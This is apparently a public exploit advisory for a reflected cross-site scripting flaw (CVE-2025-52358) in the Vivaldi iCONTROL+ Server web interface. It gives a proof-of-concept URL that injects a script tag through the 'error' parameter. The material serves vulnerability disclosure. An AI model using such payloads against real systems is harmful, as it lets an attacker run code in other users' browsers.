 # Exploit Title: Reflected Cross-Site Scripting in Vivaldi iCONTROL+ Server
# Date: 2025-07-09
# Exploit Author: Matei Josephs
# Vendor Homepage:[https://vivaldigroup.it/en/](https://vivaldigroup.it/en/)
# Version: Vivaldi iCONTROL+ Server - Firmware version 4.7.8.0.eden Logic version 5.32
# CVE : CVE-2025-52358


Introduction
=================
Multiple URL parameters within the iCONTROL+ Server interface were found to produce Cross-Site Scripting (XSS). This allows an attacker to run JavaScript in the context of a user's browser.

Proof of Concept
=================
Here is one of the payload which we identified:

```<VIVALDI_IP>/index.php?error=<script>alert(1)</script>```

![Vivaldi XSS](https://github.com/user-attachments/assets/00ec1b86-55ad-4bb7-9c61-0c40e7a2080b)
